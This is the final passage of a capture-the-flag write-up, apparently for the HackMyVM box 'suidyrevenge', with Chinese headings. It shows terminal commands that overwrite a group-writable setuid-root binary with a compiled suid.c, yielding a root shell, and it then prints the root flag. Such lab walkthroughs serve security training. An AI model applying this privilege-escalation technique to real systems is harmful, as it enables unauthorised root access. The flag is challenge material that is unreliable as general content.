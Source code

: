 编译后执行替换

```bash
(remote) theuser@suidyrevenge:/home/theuser$ nano suid.c
(remote) theuser@suidyrevenge:/home/theuser$ gcc suid.c -o suid
(remote) theuser@suidyrevenge:/home/theuser$ cp ./suid /home/suidy/suidyyyyy
(remote) theuser@suidyrevenge:/home/theuser$ cd /home/suidy/
(remote) theuser@suidyrevenge:/home/suidy$ ls -lh
total 24K
-rw-r----- 1 suidy suidy   262 Oct  1  2020 note.txt
-rwsrws--- 1 root  theuser 17K Feb 16 02:10 suidyyyyy
(remote) theuser@suidyrevenge:/home/suidy$ ./suidyyyyy
root@suidyrevenge:/home/suidy# whoami
root
```

## User - root

### flag- root

```bash
root@suidyrevenge:/root# cat root.txt

                                   .     **
                                *           *.
                                              ,*
                                                 *,
                         ,                         ,*
                      .,                              *,
                    /                                    *
                 ,*                                        *,
               /.                                            .*.
             *                                                  **
             ,*                                               ,*
                **                                          *.
                   **                                    **.
                     ,*                                **
                        *,                          ,*
                           *                      **
                             *,                .*
                                *.           **
                                  **      ,*,
                                     ** *,


HMVvoilarootlala
```
